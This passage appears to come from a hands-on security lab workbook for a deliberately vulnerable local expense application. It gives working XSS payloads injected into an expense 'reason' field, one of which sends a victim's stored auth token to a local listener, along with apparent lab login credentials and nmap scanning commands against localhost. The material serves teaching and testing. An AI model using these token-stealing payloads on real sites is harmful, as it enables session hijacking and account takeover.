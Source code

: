 3. If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc

![Manager Token](token_200_manager.png)

4. Now in the sidebar, go to the `Create Expense` Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page

![Add Auth Token to Request](auth_token_header.png)

5. In the JSON Tab, you can start making some edits to the JSON Payload. In the reason field, add the following payload to test for Cross-Site Scripting

`<svg onload=alert(localStorage.getItem('token'))></svg>`

Now, click Send. If all goes well, the expense should have been created in Maya william's account. 

![XSS Request](xss_request.png)

Now open Firefox (Web Browser) from the Main Menu. Goto: `http://localhost:5000`

Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`

In the top bar, you should find "Manage Expenses". Click on that. Once you do, shortly, you should see that a JavaScript alert is fired at you with the Authorization Token of Maya's. This indicates that the attack has worked and the application is vulnerable to Cross Site Scripting

### Token Hijacking with Cross-Site Scripting
Let's repeat Steps 1 - 4 from the previous exercise. 

However, for Step 5 the XSS Payload will change to this: 

`<svg onload=\"var xhr = new XMLHttpRequest();xhr.open('GET', 'http://127.0.0.1:8000?token='+localStorage.getItem('token'), true);xhr.send();\"/>`

Before you open Firefox and repeat the steps from the previous exercise. Open up another terminal window and type the following command into it.

`python -m SimpleHTTPServer`

Leave this terminal open

Now repeat the steps from the Firefox Browser and observe the results. Once the page loads, go back to the terminal window to see if the token has been captured

## Nmap Basic Commands
- Open the **Terminal** on your Desktop
- Run the command `stop_all_containers.sh`
- Now run the command `start_node.sh`, which will start a new container
- Type the following command in the terminal and press ENTER to perform a default TCP scan on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default UDP scan on the localhost IP with 127.0.0.1 `nmap -sU 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP scan on a specific set of TCP Ports (1 - 65535)  on the localhost with IP 127.0.0.1 `nmap -sT -p1-65535 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform OS fingerprinting to identify the OS of the localhost with IP 127.0.0.1 `nmap -O 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP SYN scan on the localhost with IP 127.0.0.1 `nmap -sS 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default TCP scan with No Ping on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn`
- Type the following command in the terminal and press ENTER to perform a slow TCP scan, with traceroute on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn -T0 --traceroute`
